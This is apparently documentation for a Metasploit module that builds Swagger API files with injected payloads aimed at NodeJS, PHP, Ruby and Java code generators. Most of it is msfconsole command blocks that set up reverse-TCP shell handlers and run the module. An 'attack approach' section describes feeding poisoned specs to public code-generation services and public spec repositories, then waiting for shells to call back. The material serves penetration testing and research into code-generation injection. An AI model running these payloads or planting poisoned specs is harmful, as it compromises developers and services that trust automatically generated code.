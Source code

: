 The [Swagger CodeGen parameter injector module](../../../../../modules/exploits/multi/fileformat/swagger_param_inject.rb) generates a Swagger JSON file with embedded Metasploit payloads.

In the typical case, a Swagger document defines an API.  Swagger can be automatically consumed to generate client/server code, testing and scaffolding in APIs by companies eager to provide value to the increasing need for scalable API deployment and testing.

Currently, this module supports 4 languages for delivery: NodeJS, PHP, Ruby, and Java.  These are specified by the PAYLOAD set for the exploit module.


## Verification Steps

All exploits assume a bind or reverse-tcp callback handler, with preference on reverse-tcp. 

1. Start msfconsole
2. Start a callback handler listening for a the appropriate payload (e.g.)

```
use exploit/multi/handler  
set PAYLOAD nodejs/shell_reverse_tcp

set LHOST 192.168.68.138 
set LPORT 4444

run 
```
3. Pick a target 

## Targets

**NodeJS** 

This attack looks to inject a payload into javascript by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD nodejs/shell_reverse_tcp
set INFO_VERSION "1.0.0"
set SWAGGER_HOST "localhost"
run 
```

**PHP** 

This attack looks to inject a payload into PHP multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD php/meterpreter/reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**ruby** 

This attack looks to inject a payload into ruby multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD ruby/shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**Java** 

This attack looks to inject a payload into javascript by terminating a URL path string, and placing code inline without causing runtime errors.


```

use exploit/multi/fileformat/swagger_param_inject
set PAYLOAD java/jsp_shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

## Quick Test

Use the online [editor.swagger.io](http://editor.swagger.io) to upload your swagger document, and generate pre-built code bases from the document.  The swagger editor leverages [generator.swagger.io](http://generator.swagger.io) to build these clients & servers automatically from the document, and published downloadable artifacts of these code bases.


## Scenarios

Effective against services with either these dependencies

*  [swagger-codegen](https://github.com/swagger-api/swagger-codegen)
  * public API [generator.swagger.io](http://generator.swagger.io/)
  * public docker container [swagger-generator/](https://hub.docker.com/r/swaggerapi/swagger-generator/)
* [swagger-test-templates](https://github.com/apigee-127/swagger-test-templates)

**Possible Attack approach.**

1. Research the target environment and component dependencies.  
2. Setup appropriate payload callback listener.
3. generate the appropriate swagger document with associated MS payload (see above for examples)


**Against a webservice (2nd order attack / blind code-gen)**

*Who knows what insecurely configured code-gen Docker containers hosted in data compute or API broker cluster could do if given the chance...*
 
4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

**Against a code repository or public hosting of spec**

*People and Robots trust swagger to build clients, servers, mocks, and more.  Publicly hosted specs should be verified as to not corrupt automatic code generation.*

4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

